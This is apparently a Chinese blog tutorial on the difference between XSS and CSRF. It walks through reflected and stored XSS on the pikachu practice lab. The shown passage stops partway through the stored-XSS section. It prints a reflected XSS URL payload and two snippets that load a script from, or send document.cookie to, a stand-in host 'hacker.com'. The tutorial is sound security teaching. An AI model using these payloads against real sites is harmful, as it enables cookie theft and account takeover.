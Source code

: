```yaml
---
title: XSS和CSRF的区别及防御
date: 2022-03-08 16:49:20
tags:
---
```


在 Web 安全领域，XSS 和 CSRF 是个老生常谈的都行了，特别是面试的时候，但是还是有很多同学将它们搞混。本文将简单的介绍下它们的区别，以及常见的防御手段。

<!-- more -->

介绍之前，先上下维基百科：

- XSS：跨站脚本（Cross-site scripting，通常简称为XSS）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了HTML以及用户端脚本语言。

- CSRF:跨站请求伪造（英语：Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF 或者 XSRF， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。

## XSS

用“人话说”，XSS 就是恶意攻击者往 Web 页面里插入恶意 Script 代码，当用户浏览该页之时，嵌入其中 Web 里面的 Script 代码会被执行，从而达到恶意攻击用户的目的。

XSS攻击可以分为3类：反射型（非持久型）、存储型（持久型）、基于DOM。

### 反射型

反射型是指xss代码在请求的url中，而后提交到服务器，服务器解析后，XSS代码随着响应内容一起传给客户端进行解析执行。（直接反射显示在页面）

流程图如下：

{% img /gallery/react+ts.png %}

通过流程图可以很容易知道存储型XSS的常用攻击流程为：攻击者构造带有恶意XSS代码的URL—>别的用户访问这个URL—>恶意代码被服务器解析—>传递给前端渲染实现攻击。

> 如果你想搞懂一个漏洞，比较好的方法是：你可以自己先制造出这个漏洞（用代码编写），然后再利用它，最后再修复它

[pikachu](https://github.com/zhuifengshaonianhanlu/pikachu)，是个开源的漏洞测试平台，按照 README 启动项目后，跳转到「反射型xss」页面，在输入框中输入「kobe」后，点击 submit，打开控制台，观察后端返回的 html：

{% img /gallery/xss-1.jpg %}

可以看到，输入框的内容出现在 html 和链接里，这就给我们带来了可乘之机，如果输入框里输入的是一段 script 脚本呢？

{% img /gallery/xss-2.jpg %}

{% img /gallery/xss-3.jpg %}

脚本被插入到 htmlh中，并且被执行。这时将这段链接 http://localhost:8095/vul/xss/xss_reflected_get.php?message=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&submit=submit# 发送给用户，诱导用户点击，就完成了一次 XSS 攻击。

现在的脚本只是 alert 用户的 cookie，还停留在恶搞的层面，如果将 cookie 发送到恶意攻击者的服务器上，那就是一起严重的安全事故了。

```html
<script src="http://hacker.com/hacker.js"></script>
```

```javascript
var img = new Image();
img.src = "http://hacker.com/hack.png?q=" + document.cookie;
document.body.append(img);
```

### 存储型

存储型 XSS 会把用户输入的数据 "存储" 在服务器端，当浏览器请求数据时，脚本从服务器上传回并执行。这种 XSS 攻击具有很强的稳定性。

反射型 XSS 每次攻击还需要诱导用户点击诱饵链接，如果用户无动于衷，攻击者也是无可奈何，而存储型 XSS 一旦将恶意脚本入库了，任何访问到这段脚本用户都会中招。

比较常见的一个场景是攻击者在社区或论坛上写下一篇包含恶意 JavaScript 代码的文章或评论，文章或评论发表后，所有访问该文章或评论的用户，都会在他们的浏览器中执行这段恶意的 JavaScript 代码。

流程图如下：

{% img /gallery/xss-storage.jpg %}

通过流程图可以很容易知道存储型XSS的常用攻击流程为：攻击者前端插入恶意XSS代码—>后端不做处理传入数据库—>别的用户访问页面—>后端从数据库中调用XSS代码—>前端渲染(执行js脚本)恶意代码实现攻击。

这里还是用 [pikachu](https://github.com/zhuifengshaonianhanlu/pikachu) 来实操下，打开「存储型xss」页面，输入框中输入一段 script 脚本：

{% img /gallery/xss-4.jpg %}

提交后并刷新页面，这段脚本被注入到 html 中，并执行了

